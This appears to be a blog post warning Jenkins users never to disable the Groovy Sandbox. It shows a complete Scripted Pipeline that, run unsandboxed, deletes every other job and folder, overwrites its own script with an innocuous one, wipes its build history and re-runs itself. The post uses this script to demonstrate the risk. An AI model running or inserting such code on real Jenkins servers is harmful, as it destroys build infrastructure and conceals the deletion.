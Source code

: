 ```yaml
---
layout: post
title: "Do not disable the Groovy Sandbox"
tags:
- pipeline
- jenkins
---
```



One of the things I have worked on this week has been documenting the
"In-process Script Approval" and some of sandboxing features in Jenkins
Pipeline. While waiting for some pull requests to be reviewed I had the thought
"how bad could disabling the sandbox be?"


The Groovy Sandbox is enabled by default, helping to protect the Jenkins
instance from scripts which are incompetent, malicious, or both. Being Jenkins,
naturally, if you want to purchase the ammunition, load the gun, and point it
directly at your foot, Jenkins _will_ let you shoot it.

![Disabling the Groovy Sandbox](/images/post-images/groovy-sandbox/unchecked-groovy-sandbox-on-pipeline.png)


What's the worst that could happen?

**VERY VERY BAD THINGS CAN HAPPEN**

**NEVER DISABLE THE GROOVY SANDBOX**

**DID YOU HEAR ME? IT'S A TERRIBLE TERRIBLE IDEA JUST DON'T DO IT**


With that disclaimer out of the way. Disabling the Groovy Sandbox means that a
Scripted Pipeline can access, and more importantly manipulate, Jenkins'
internal objects.

**VERY VERY BAD THINGS CAN HAPPEN**

**NEVER DISABLE THE GROOVY SANDBOX**

**DID YOU HEAR ME? IT'S A TERRIBLE TERRIBLE IDEA JUST DON'T DO IT**


Okay with that second, more important, disclaimer out of the way. I spent some
time thinking about "really, what _is_ the worst that could happen?"

Below is an example Pipeline which, if run outside of the Groovy Sandbox will:

* Delete every other Pipeline, Job, Folder, except itself
* Overwrite it's own "Script" block with an innocuous `echo "Hello World"` script, with the sandbox enabled of course!
* Delete all previous Pipeline runs.
* Trigger a new run of itself to wipe out all of itself.

All from one little script!


    import org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition

    @NonCPS
    def hulkSmash() {
        Jenkins.instance.items.each { 
            if (it.name != env.JOB_NAME) {
                it.delete()
            }
            else {
                it.definition = new CpsFlowDefinition('echo "Hello World"', true)
                it.save()
                it.builds.each { f -> f.delete() }
            }
        }
    }

    hulkSmash()
    build job: env.JOB_NAME


Suffice it to say, **never ever** disable the Groovy Sandbox.
